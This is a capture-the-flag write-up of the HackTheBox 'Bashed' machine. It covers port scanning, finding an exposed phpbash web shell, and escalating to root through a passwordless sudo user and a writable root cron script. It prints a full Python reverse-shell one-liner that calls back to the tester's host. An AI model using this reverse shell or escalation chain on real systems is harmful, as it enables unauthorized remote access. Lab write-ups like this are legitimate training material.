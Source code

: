 ```yaml
---
layout: page
title: Bashed - HackTheBox
permalink: /posts/ctf/hackthebox/bashed.html
---
```


# Bashed - HackTheBox
----


First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 10.10.10.68`

![image](https://user-images.githubusercontent.com/50459517/109188821-ef447300-7758-11eb-8b6a-224f7a66cb21.png)

Looks like we only have one port open, lets check out the web server.

![image](https://user-images.githubusercontent.com/50459517/109188858-fa979e80-7758-11eb-8809-71336dcbdabb.png)

phpbash.. interesting.  Looking into this it looks like its an open source project for interacting with the server via a web-shell.  I enumerated for directories using dirsearch to see if I could find the file.

![image](https://user-images.githubusercontent.com/50459517/109188898-071bf700-7759-11eb-97f4-d13a9fa78196.png)

After checking out these directories, I found that the **/dev/** directory has the **phpbash.php** file.

![image](https://user-images.githubusercontent.com/50459517/109188937-100cc880-7759-11eb-876c-7fe736edb734.png)

![image](https://user-images.githubusercontent.com/50459517/109188962-18fd9a00-7759-11eb-8092-23bfa8fc16cf.png)

Looks like it works, now lets try to get a reverse shell connected to our local machine so we can get an interactive shell.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![image](https://user-images.githubusercontent.com/50459517/109189039-2fa3f100-7759-11eb-8c8a-1445f47165f7.png)

Now that we have an interactive shell, lets copy LinPEAS over and see what we find

![image](https://user-images.githubusercontent.com/50459517/109189066-3894c280-7759-11eb-8578-0aae8c409230.png)

Looks like we can run any command as **scriptmanager** with no password, so lets run **/bin/bash** to get a shell as this user.

![image](https://user-images.githubusercontent.com/50459517/109189106-40ecfd80-7759-11eb-8c56-91a9ae365b3c.png)

Now that we are the **scriptmanager** user, we can enumerate the machine to see if we can escalate to root.  After some digging we find a directory called **scripts** that has the following files.

![image](https://user-images.githubusercontent.com/50459517/109189133-4a766580-7759-11eb-8be0-2e8809e25daa.png)

Looking at the source code of **test.py**, I see that it simply opens the file **test.txt** and writes some data in it.  However **test.txt** is owned by root, so even though we are the owner of the script, we need to run this as root to actually write to the file.  However after a few minutes we notice that the **test.txt** file has a new "last modified" time on it, indicating that we have a cron job executing the **test.py** script.

![image](https://user-images.githubusercontent.com/50459517/109189159-55c99100-7759-11eb-99a8-1f0d542d68f2.png)

Since we have write access to this file, we can modify the file to connect to our local machine.  Since this script is being run as root, we should get a shell back as root.

![image](https://user-images.githubusercontent.com/50459517/109189193-5eba6280-7759-11eb-8602-7602e7ae81c5.png)

![image](https://user-images.githubusercontent.com/50459517/109189220-667a0700-7759-11eb-8265-3d81741bd771.png)
